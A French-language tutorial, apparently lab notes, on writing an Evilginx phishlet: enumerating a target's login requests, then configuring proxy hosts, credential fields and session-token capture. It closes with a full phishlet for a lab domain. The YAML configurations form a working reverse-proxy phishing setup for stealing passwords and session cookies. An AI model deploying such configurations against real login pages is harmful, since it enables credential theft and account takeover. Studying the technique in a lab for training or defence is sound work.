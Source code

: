Un **phishlet** est un **fichier de configuration YAML** qui définit comment intercepter et reproduire le comportement d’un site web cible pour voler des identifiants, des cookies ou des tokens d'authentification.

**Exemple typique :**

Un phishlet pour **login.microsoftonline.com** ou **accounts.google.com** configure Evilginx pour :

- Cloner l’interface de connexion,
- Intercepter les requêtes HTTP/S,
- Extraire les informations sensibles.

# Enumération

Avant même de crée notre phishlets nous devons énumérer notre site web cible, voir comment elle fonctionne et recueillir certaines informations.

- Aller dans la page de connexion du site web cible et crée un compte si vous n'a avez pas encore
- Une foie le compte crée, déconnectez vous
- Activer l'option `Network | Preserve log`  dans les outils de développements du navigateurs 
- Connectez vous a votre compte et récupérer les informations suivantes dans les requêtes envoyées :
	- Headers (`Request URL`, `Request Method`, `Content-Type`)
	- Payload (Données envoyer en POST)

# Création du phishlet

Une fois toutes les informations en main, faite une copie du fichier  `phishlets/example.yaml` pour votre campagne et nommer cette copie le même nom que votre site cible (ex: `akira.yaml`)

Les options les plus importante du fichier `yaml` sont:

- `proxy_hosts`: Contient la liste de tout les domaines que le site cible a besoin pour faire un proxy inverse cela inclus les sous-domaines et bien d'autres.
	- `domain`: Contient le domaine principale
	- `phish_sub` et `orig_sub`: Contiennent les sous-domaine lier au domaine principale
	- `session:true`: Indique le domaine contient des cookies de sessions
	- `is_landing:true`: Permet de rediriger un utilisateur vers la page d'origine

```yaml
{phish_sub: 'akira', orig_sub: 'akira', domain: 'lab.evilginx.com', session: true, is_landing: true, auto_filter: true}
```

- `credentials`: Se sont les informations envoyer lors de la connexion au site (Présent dans la parti `Payload`) se sont des `key` qui doivent être remplacer en fonction de la requête envoyer

```yaml
credentials:
  username:
    key: 'email' # can change
    search: '(.*)'
    type: 'post'
  password:
    key: 'password' # can change
    search: '(.*)'
    type: 'post'
```

- `login`: Les informations ou envoyer notre campagne
       - `domain`: Contient le domaine connexion ceci peut être un sous-domaine aussi comme `login.target.com` | `akira.lab.evilginx.com` c'est le domaine responsable de recevoir les informions d'identifications par le formulaire 
    - `path`: Contient le chemin URL de login du site cible

```yaml
login:
  domain: 'akira.lab.evilginx.com'
  path: '/' # can be /login
```

- `auth_tokens`
    - `domain`: le domaine du cookie responsable de l'authentification 
    - `keys`: les noms des cookies, tokens a capturer

```yaml
auth_tokens:
  - domain: 'akira.lab.evilginx.com'
    keys: ['token']
```

---

Voici a quoi ressemble le fichier Phishlet de notre cible une fois terminer

```yaml
min_ver: '3.0.0'
proxy_hosts:
  - {phish_sub: 'akira', orig_sub: 'akira', domain: 'lab.evilginx.com', session: true, is_landing: true, auto_filter: true}

sub_filters:
#  - {triggers_on: 'breakdev.org', orig_sub: 'academy', domain: 'breakdev.org', search: 'something_to_look_for', replace: 'replace_it_with_this', mimes: ['text/html']}

auth_tokens:
  - domain: 'akira.lab.evilginx.com'
    keys: ['token']

credentials:
  username:
    key: 'email'
    search: '(.*)'
    type: 'post'
  password:
    key: 'password'
    search: '(.*)'
    type: 'post'

login:
  domain: 'akira.lab.evilginx.com'
  path: '/'
```


> Chaque fois que vous faites une modification sur un phishlet redémarrer Evilginx 